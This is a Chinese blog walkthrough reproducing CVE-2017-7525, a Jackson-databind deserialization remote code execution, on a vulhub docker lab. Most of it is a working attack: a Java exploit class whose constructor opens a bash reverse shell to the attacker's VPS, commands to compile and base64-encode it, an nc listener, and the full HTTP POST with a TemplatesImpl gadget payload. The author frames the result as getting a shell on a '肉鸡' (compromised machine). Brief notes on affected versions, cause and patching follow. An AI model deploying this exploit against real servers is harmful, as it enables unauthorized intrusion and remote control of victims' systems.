



# 漏洞复现-CVE-2017-7525-Jackson 远程代码执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/15378959.html`](https://www.cnblogs.com/cute-puli/p/15378959.html)

# 0x00 实验环境

攻击机：Win 10

靶场：docker 拉的 vulhub 靶场

# 0x01 影响版本

FasterXML Jackson-databind < 2.6.7.1
FasterXML Jackson-databind < 2.7.9.1
FasterXML Jackson-databind < 2.8.9

# 0x02 漏洞复现

（1）访问存在的漏洞页面，漏洞环境是 jackson2.8.8，内置的 java 环境是 1.7，看文章说对 jdk1.8 就不再适用了，也不清楚是真是假：


 直接访问漏洞页面是一个**spring**的默认报错页面：

很难知道这个站还使用了**Jackson**。

（2）这个漏洞复现要从**安装 java1.5**的环境说起，从现有的复现文章来看，基本都是只能完成写个 txt 文档的恶意攻击，但是我怎么会走寻常路呢，即然只是单纯的复现漏洞，那就必须要 getshell 才行。为了方便自己以后测站，我写明白一些，首先是安装 jdk1.5 的环境。到下面这个链接下载 jdk1.5：

```
https://www.oracle.com/java/technologies/java-archive-javase5-downloads.html
```


 下载时需要**登录自己的 Oracle 账号**，这里没有的话就注册一下就好。

（3）先给这个**bin**文档赋予更高的权限：

```
chmod 755 jdk-1_5_0_22-linux-amd64.bin
```

（4）执行安装**jdk1.5**，执行完成将会在你执行的当前目录下生成一个目录 “**jdk1.5.0_22**”：

```
sudo -s ./jdk-1_5_0_22-linux-amd64.bin
```


（5）然后是常规的，将 jdk1.5 添加到系统环境变量，打开**java.sh**，然后编辑，在 java.sh 中加入你上述看到的**jdk1.5.0.22 的目录**，按照自己的**实际目录来修改 java.sh**：

```
sudo vim /etc/profile.d/java.sh
```

```
#set java environment
export JAVA_HOME=/root/jdk1.5.0_22
export CLASSPATH=.:$JAVA_HOME/lib:$JAVA_HOME/jre/lib
export PATH=$JAVA_HOME/bin:$JAVA_HOME/jre/bin:$PATH
```

（6）重启服务器：

```
reboot
```

（7）当你再次打开服务器时就会发现 java 的环境已经变成了**jdk1.5**:


（8）接下来进入编译**Exploit.java**文件的环境，需要将恶意攻击的脚本编译成**.class**文件，将如下.java 文件复制并保存为**Exploit.java**（懂 java 的都知道，类的名字需要与文件名一致，否则编译的时候会报错），当然你也可以修改这个类名：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM; import com.sun.org.apache.xalan.internal.xsltc.TransletException; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator; import com.sun.org.apache.xml.internal.serializer.SerializationHandler; import java.io.IOException; public class Exploit extends AbstractTranslet { public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    } public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    } public Exploit() throws IOException { try {
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/xx.xx.xx.xx/8761 0>&1"};
            Process p = Runtime.getRuntime().exec(commands);
            p.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    } public static void main(String[] args) throws IOException {
        Exploit helloworld = new Exploit();
    }
}
```

（9）将**Exploit.java**上传至你的 vps，在**jdk1.5**的环境下进行编译（在编译前不要忘记了，**/dev/tcp/xx.xx.xx.xx/8761**，这里是需要把 xx.xx.xx.xx 更换为你 vps 的监听端口的，不然是无法实现命令执行的，懂的都懂），这就是上面到（7）为止的作用：


 （10）最后一步，将生成的**Exploit.class 编码为 base64**，这个也不用担心，我已经搜到命令了，直接执行以下命令即可生成 base64 的 payload：

```
javac Exploit.java; cat Exploit.class | base64 -w 0 | xargs
```


（11）在自己的 vps 上开启监听：

```
nc -lvp 8761
```

（12）最后一步，也就是所有千篇一律的使用**payload**进行发包操作：

```
POST /exploit HTTP/1.1 Host:xx.xx.xx.xx:8080 Accept-Encoding: gzip, deflate
Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 1864

{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "将 base64 编码好的 payload 放进来"
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```



 然后即可获取到肉鸡的 shell：



# 0x03 漏洞原理

Jackson 是一款基于 Java 平台的**开源数据处理框架**，可以方便的实现 Jason 对象和 Java 对象的相互转换，很多 Java 应用都使用 Jackson 框架进行 Jason 对象处理。**Jackson-databind**是 Jackson 框架的核心库之一。

Jackson-databind 库在**ObjectMapper 类**的**readValue 方法**处理中存在一个**反序列化漏洞**，未授权的远程攻击者可以通过提交精心构造的恶意数据执行任意代码。

# 0x04 修复建议

1、升级到高版本

# 0x05 参考文献

https://www.cnblogs.com/ABKing/p/13669401.html

https://blog.csdn.net/xuandao_ahfengren/article/details/106805679

https://www.nsfocus.com.cn/html/2017/39_0714/396.html

# 0x06 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！